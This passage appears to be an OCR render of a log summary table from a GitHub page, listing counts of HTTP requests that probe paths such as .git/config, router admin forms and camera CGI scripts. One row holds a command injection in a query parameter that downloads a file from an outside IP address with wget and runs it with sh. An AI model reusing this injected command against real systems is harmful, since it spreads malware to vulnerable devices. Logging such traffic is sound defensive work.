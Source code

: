 |   9 |                     5 | GET /ci/cd/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  10 |                     5 | POST /login.html HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  11 |                     5 | POST /boaform/admin/formTracert HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|  12 |                     5 | POST /camera-cgi/admin/param.cgi HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  13 |                     5 | POST /cgi-bin/cgi_main.cgi HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  14 |                     5 | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(chmod+777+/tmp;cd+/tmp;wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  15 |                     4 | GET /support HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |